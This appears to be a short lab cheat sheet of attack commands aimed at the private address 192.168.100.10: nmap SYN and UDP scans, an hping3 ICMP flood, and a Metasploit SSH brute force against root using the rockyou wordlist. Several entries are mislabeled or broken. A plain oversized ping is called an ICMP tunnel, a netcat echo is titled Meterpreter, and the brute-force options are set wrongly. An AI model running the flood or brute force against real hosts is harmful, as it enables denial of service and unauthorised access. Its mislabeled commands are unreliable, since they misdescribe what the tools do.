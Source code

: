 NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

NMAP UDP Scan :
```bash
nmap -sU 192.168.100.10
```

ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP_cible>
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

Meterpreter sur port 4444 :
```
# Cible
nc -lvp 4444

# Attaquant
echo "test" | nc 192.168.100.10 4444
```
